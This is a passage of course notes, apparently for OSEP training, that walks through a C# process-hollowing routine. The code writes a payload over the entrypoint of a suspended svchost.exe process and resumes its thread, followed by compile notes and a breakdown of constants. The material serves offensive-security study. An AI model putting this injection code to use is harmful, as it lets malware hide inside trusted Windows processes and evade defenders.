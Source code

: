 ```cs

            // 4. Read the 4 bytes (UInt32) at the RVA offset to get the offset of the executable entrypoint from the executable address
            uint rva = BitConverter.ToUInt32(dataBuf, (int)rvaOffset);

            // 5. Get the absolute address of the entrypoint by adding this value to the base executable address. Success!
            IntPtr entrypointAddr = (IntPtr)((Int64)executableAddress + rva);

            // Overwrite the memory at the identified address to 'hijack' the entrypoint of the executable
            result = WriteProcessMemory(pInfo.hProcess, entrypointAddr, buf, buf.Length, out bytesRW);

            // Resume the thread to trigger our payload
            uint rResult = ResumeThread(pInfo.hThread);
        }
    }
}
```

### Compile and excute

**Before compiling the project, set the CPU architecture to x64**

![[Pasted image 20240603233730.png]]

Check the current process ID -> "svchost.exe"

![](https://github.com/col-1002/OSEP-Course/blob/main/Attachment/Process_Hollowing_v1.png?raw=true)

### Breakdown

Importing Namespaces and Declaring DLL Imports + Namespace and Class Definition

#### Constant and Structure Definitions

```csharp
        public const uint CREATE_SUSPENDED = 0x4;
        // Constant to specify that the process should be created in a suspended state.

        public const int PROCESSBASICINFORMATION = 0;
        // Constant for identifying the type of information to query from the process.
```
